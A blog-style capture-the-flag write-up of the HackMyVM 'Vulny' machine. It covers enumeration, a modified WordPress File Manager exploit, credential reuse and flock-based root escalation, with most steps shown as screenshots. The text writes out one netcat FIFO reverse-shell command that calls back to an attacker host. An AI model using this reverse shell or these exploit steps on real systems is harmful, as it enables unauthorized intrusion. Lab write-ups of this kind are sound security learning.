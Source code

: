 +++
title = 'Vulny'
date = 2024-01-20T14:47:53-06:00
draft = false
summary = "Writeup of the machine vulny from the hackmyvm website"
tags = ["pentesting","hackmyvm","sql","wordpress","python"]
series=['Hackmyvm Easy']
series_order=1
+++

# Machine Information
***
| Name  | Vulny  |
|---|---|
|  OS | Linux  |
|Author   |SML   |
|Difficulty   |Easy   |
|Site   |[hackmyvm](https://hackmyvm.eu)   |
***


## Recon and enumeration

Service scan:

![](images/vulny%20(1).png)

Lets check the webpage:

![](images/vulny%20(2).png)

Default apache2 webpage, we run a gobuster scan.

![](images/vulny%20(3).png)

We find two interesting directories, javascript and secret, let's check them:

![](images/vulny%20(4).png)

We find something interesting, maybe, that's the directory we are in right now, so let's keep that in mind, in the javascript page we dont have enough privileges to view it:

![](images/vulny%20(5).png)

Let's enumerate the /secret directory:

![](images/vulny%20(6).png)

We find another 3 directories , lets secret each one of them:

![](images/vulny%20(7).png)

***
![](images/vulny%20(8).png)

![](images/vulny%20(9).png)

*Later on, I found this list of directories on the /wp-admin directories, but couldn't access them*
***

![](images/vulny%20(10).png)

Lets check the /uploads directory in /wp-content:

![](images/vulny%20(11).png)

We find a zip-file, lets download it and see its contents:

![](images/vulny%20(12).png)

Among the files of the zip, se file an sql file, we research how to open it:

![](images/vulny%20(13).png)
![](images/vulny%20(14).png)

Lets follow this steps, we find nothing of interest in the database tables:(make sure we start the mysql service with `sudo service start mysql`)

![](images/vulny%20(15).png)

Apparently, this database has no information at all, ideally , it would contain user and password information, I decide to do a little bit of research on the wp file manager and its version to see if it can be exploited in some way.

After a while, a find a [github](https://github.com/ircashem/wp-file-manager-plugin-exploit) page, containing a exploit for this app, it a plugin for wordpress, and the exploit will a allow remote command execution, now I'll follow this steps, and see if I can get a reverse shell:

I get an error code:

![](images/vulny%20(16).png)

Lets check the code and see what's the problem:

![](images/vulny%20(17).png)

We can see, that the default directory I will look up will start with `/wp-content` ,but, let's remember our directory enumeration, the `/wp-content` directory is in the `/secret` directory:

![](images/vulny%20(18).png)

Also, just for the sake of confirmation, lets check the content of the zip file we downloaded and see if the `readme.txt` is there:

![](images/vulny%20(19).png)

There it is, so, now ,to make the code work, we just need to add the `/secret` string to the variable, like this:

![](images/vulny%20(20).png)

It should work now, lets try again:

![](images/vulny%20(21).png)

We find another error, but this time, in my opinion, the programmers part, didn't it say that version 6.0 was also vulnerable?

![](images/vulny%20(22).png)

It is, lets check the code again:

![](images/vulny%20(23).png)

We found the problem, now, what's happening here, to sum it up, the `>` operator *greater than* is causing the problem, because of this, instead of looking through version `6.0 to 6.8` it will only detect version through `6.1 to 6.8` as vulnerable ,leaving out the `6.0` of the app, let add an `=` next to the `>` , to take in count the `6.0`  and then let's try out the code again:

![](images/vulny%20(24).png)

After looking at the code a while, I realize, there are another strings referencing the directory that I did not change:

![](images/vulny%20(25).png)

## Initial access and user pivoting
Now, lets run the exploit again:

![](images/vulny%20(26).png)

There we go! Lets see what we can find:

![](images/vulny%20(27).png)

First, we find the user adrian, lets see if we can access his home folder, it seems we cannot traverse directories, let try that reverse shell we saw earlier on the github page of the exploit:

First we start our listener in our machine :

![](images/vulny%20(28).png)

Then we run the `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR-MACHINE-IP> <PORT-OF-YOUR-CHOOSING> >/tmp/f ` on the target machine:

![](images/vulny%20(29).png)


![](images/vulny%20(30).png)
We have a reverse shell! Lets update our shell a little:

![](images/vulny%20(31).png)

Using the following, remember that we have to run a `bash shell` for this to work, which, in my case I need to do because I'm using zsh, I run the command, and explore ,first, I look for other users:

![](images/vulny%20(32).png)

Besides root, only the user *adrian* can use a shell session, lets go to his home directory and check its contents:

![](images/vulny%20(33).png)

We can't access anything interesting in this directory, but now we know we have to pivot to this user, lets check if theres something of interest the `/var/www/` directory:

![](images/vulny%20(34).png)

Nothing there...

I decide explore the contents of the wordpress directory, there I find some interesting files:

![](images/vulny%20(35).png)

I inspect the contents of that php file:

![](images/vulny%20(36).png)

Lets try that:

![](images/vulny%20(37).png)

Great! Now lets get that user flag:

![](images/vulny%20(38).png)

## Privilege Escalation
Now, lets run the usual commands to check if we can find any privesc vectors:

![](images/vulny%20(39).png)

We search that program in [gtfobins](https://gtfobins.github.io/gtfobins/flock/)

![](images/vulny%20(40).png)

We try this, and see if we can access the contents of the /root directory:

![](images/vulny%20(41).png)

Even better, we get root! Lets see if we can get that flag:

![](images/vulny%20(42).png)

And we have pwned the machine.

## Thing I learned from this machine

- Wordpress vulnerabililty in versions ranging from (6.0 to 6.8).
- How to access a database I downloaded from a file server with mysql(and that not always those databases will have data on them...).
- Remember to start a bash shell when settinp up a full TTY in the netcat listener(if not using bash a main shell session).
- Check config files for useful information.
- Apparently, after checking other writeups, I could've used the metasploit framework too for this machine.